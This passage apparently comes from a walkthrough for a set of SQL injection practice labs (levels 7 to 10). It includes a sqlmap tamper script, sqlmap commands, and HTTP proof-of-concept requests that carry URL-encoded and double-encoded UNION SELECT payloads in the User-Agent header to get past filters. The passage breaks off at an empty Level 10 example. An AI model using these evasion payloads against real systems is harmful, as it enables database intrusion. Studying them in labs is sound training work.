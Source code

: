 ```python
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Insert FILL after every character

    >>> tamper('INSERT')
    'IfillNfillSfillEfillRfillTfill
    """

    retVal = str()

    FILL='ZEROFILL'

    if payload:
        for i in xrange(len(payload)):
            retVal += payload[i]+FILL
    # Uncomment to debug
#    print "pretamper:", payload
    return retVal
```
SQLMap automation:
```bash
sqlmap -u 'http://7.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --banner
```
## Level 8
Simple URL encoding.
PoC:
```bash
GET / HTTP/1.1
Host: 8.sqli.labs
User-Agent: %61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d
```
SQLMap Automation:
```bash
sqlmap -u 'http://8.sqli.labs/' -p user-agent --tamper=charencode --technique=U --banner
```
## Level 9
SQLi 9
Double encoding.
PoC:
```bash
GET / HTTP/1.1
Host: 9.sqli.labs
User-Agent: %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```
SQLMap Automation:
```bash
sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner
```
## Level 10
This labs combines reserver keyword filtering with an injection in a function.
PoC:
```bash
```